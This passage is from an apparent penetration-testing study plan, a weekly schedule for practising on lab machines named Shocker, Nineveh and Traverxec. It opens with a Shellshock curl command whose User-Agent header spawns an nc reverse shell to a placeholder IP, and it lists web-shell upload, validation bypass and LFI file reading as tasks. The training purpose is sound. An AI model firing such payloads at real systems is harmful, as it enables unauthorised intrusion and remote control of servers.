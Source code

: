 `curl -H 'User-Agent: () { :; }; echo; /bin/bash -c "nc <IP> 4444 -e /bin/bash"' http://<IP>/cgi-bin/status`

- Catch shell with `nc`
    

#### 📄 Deliverables:

- `shocker-report.md` with payloads and shell output
    

---

### 📅 Saturday – Root Nineveh & Traverxec

#### ✅ Objectives:

- Apply upload and LFI techniques in real-world boxes
    

#### 🔧 Tasks:

- Nineveh:
    
    - Upload shell via web UI
        
    - Bypass validation
        
- Traverxec:
    
    - Exploit LFI to read sensitive files
        
    - Use `user.txt` and privesc via config
        

#### 📄 Deliverables:

- `nineveh-report.md`
    
- `traverxec-report.md`
    

---

### 📅 Sunday – Weekly Review + Web Cheatsheet

#### ✅ Objectives:

- Build reusable web attack checklist
    
- Reflect on weaknesses and solidify knowledge
    

#### 🔧 Tasks:

- Create:
    
    - `web-cheatsheet.md` (upload bypasses, LFI payloads, common creds)
        
    - `notes.md`
        
    - Update `ego-log.md`
        